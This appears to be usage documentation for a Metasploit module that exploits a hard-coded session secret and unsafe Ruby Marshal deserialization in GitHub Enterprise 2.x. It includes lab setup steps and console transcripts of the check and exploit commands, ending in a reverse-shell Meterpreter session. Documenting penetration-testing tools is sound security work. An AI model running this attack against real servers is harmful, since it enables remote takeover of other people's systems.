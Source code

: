 This module exploits two security issues found in Github Enterprise 2. The first problem is
that the session management uses a hard-coded secret value, which can be abused to sign a
serialized malicious object. The second problem is that the serialized string is passed to
a ```Marshal.load``` API call, which deserializes the malicious object, and executes it. A
malicious attacker can take advantage of these problems to achieve remote code execution.

## Vulnerable Application

For testing purposes, you can download a Github Enterprise image from the following location:

[https://enterprise.github.com/releases/](https://enterprise.github.com/releases/)

This module was specifically tested against version 2.8.0, which can be downloaded here:

[https://github-enterprise.s3.amazonaws.com/esx/releases/github-enterprise-2.8.0.ova](https://github-enterprise.s3.amazonaws.com/esx/releases/github-enterprise-2.8.0.ova)

Before you install the image, you must have a valid key. Start from here:

[https://enterprise.github.com/sn-trial](https://enterprise.github.com/sn-trial)

After signing up for a trial, you should receive an e-mail. The email will instruct you to access
your portal account. In there, you can download your github-enterprise.ghl file, which is a key
to complete installing your Github Enterprise system.

## Using github_enterprise_secret

The module consists of two features: the ```check``` command and the ```exploit``` command.

The ```check``` command determines if the host is vulnerable or not by extracting the hash of the
cookie, and then attempts to create the same hash using the default secret key. If the two match,
it means the module can tamper the cookie, and that makes the server vulnerable to deserialization.

```
msf exploit(github_enterprise_secret) > check

[*] Found cookie value: _gh_manage=BAh7B0kiD3Nlc3Npb25faWQGOgZFVEkiRTViZTAwNjg4NDViYmYzNWQzMGZl%0AZTRiYWY2YmU4Mzg2MzQ2NjFjODcxYTAyZDZlZjA0YTQ2MWIzNDBiY2VkMGIG%0AOwBGSSIPY3NyZi50b2tlbgY7AFRJIjFZZ0I5ckVkbWhwclpmNWF5RmVia3Zv%0AQzVKMUVoVUxlRWNEbjRYbHplb2R3PQY7AEY%3D%0A--ab0866fc61ea036b1e83cd65b92c2b6cc5b001ed;, checking to see if it can be tampered...
[*] Data: BAh7B0kiD3Nlc3Npb25faWQGOgZFVEkiRTViZTAwNjg4NDViYmYzNWQzMGZlZTRiYWY2YmU4Mzg2MzQ2NjFjODcxYTAyZDZlZjA0YTQ2MWIzNDBiY2VkMGIGOwBGSSIPY3NyZi50b2tlbgY7AFRJIjFZZ0I5ckVkbWhwclpmNWF5RmVia3ZvQzVKMUVoVUxlRWNEbjRYbHplb2R3PQY7AEY=
[*] Extracted HMAC: ab0866fc61ea036b1e83cd65b92c2b6cc5b001ed
[*] Expected HMAC: ab0866fc61ea036b1e83cd65b92c2b6cc5b001ed
[*] The HMACs match, which means you can sign and tamper the cookie.
[+] 192.168.146.201:8443 The target is vulnerable.
msf exploit(github_enterprise_secret) > 
```

If vulnerable, the ```exploit``` command will attempt to gain access of the system:

```
msf exploit(github_enterprise_secret) > exploit

[*] Started reverse TCP handler on 192.168.146.1:4444 
[*] Serialized Ruby stager
[*] Sending serialized Ruby stager...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 192.168.146.201
[*] Meterpreter session 2 opened (192.168.146.1:4444 -> 192.168.146.201:52454) at 2017-03-23 10:11:17 -0500
[+] Deleted /tmp/htBDuK.bin
[+] Deleted /tmp/kXgpK.bin
[*] Connection timed out

meterpreter >
```

